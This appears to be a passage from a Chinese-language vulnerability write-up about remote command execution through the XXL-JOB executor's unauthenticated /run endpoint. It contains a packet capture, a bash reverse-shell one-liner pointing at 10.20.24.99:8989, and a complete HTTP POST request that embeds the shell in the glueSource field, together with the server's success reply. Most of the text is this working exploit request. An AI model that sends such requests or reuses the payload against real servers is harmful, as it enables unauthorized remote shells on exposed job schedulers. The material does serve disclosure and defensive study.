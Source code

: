 
7   0.036046    10.20.24.99 10.88.105.53    HTTP    392 POST /run HTTP/1.1  (application/json)
8   0.036058    10.88.105.53    10.20.24.99 TCP 66  9999 → 50724 [ACK] Seq=1 Ack=645 Win=131456 Len=0 TSval=1636700605 TSecr=915202206
9   0.037061    10.88.105.53    10.20.24.99 HTTP    180 HTTP/1.1 200 OK  (text/html)
```


`bash -i \u003e\u0026 /dev/tcp/10.20.24.99/8989 0\u003e\u00261\n`

`bash -i >& /dev/tcp/10.20.24.99/8989 0>&1\n`

```
POST /run HTTP/1.1
Content-Type: application/json;charset=UTF-8
Accept-Charset: application/json;charset=UTF-8
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_60
Host: 10.88.105.53:9999
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 326


{
  "jobId": 5,
  "executorHandler": "",
  "executorParams": "",
  "executorBlockStrategy": "SERIAL_EXECUTION",
  "executorTimeout": 0,
  "logId": 13,
  "logDateTime": 1603865778890,
  "glueType": "GLUE_SHELL",
  "glueSource": "bash -i \u003e\u0026 /dev/tcp/10.20.24.99/8989 0\u003e\u00261\n",
  "glueUpdatetime": 1603860395000,
  "broadcastIndex": 0,
  "broadcastTotal": 1
}



HTTP/1.1 200 OK
content-type: text/html;charset=UTF-8
content-length: 12
connection: keep-alive

{"code":200}
```


Ps： 此利用方式在`2019.07.08 16:20:16` 有人已经写过文章（https://www.jianshu.com/p/2d0974f33271） , 不知道为什么今天才预警？？？ 

## 参考链接

https://landgrey.me/blog/18/

https://www.xuxueli.com/xxl-job/
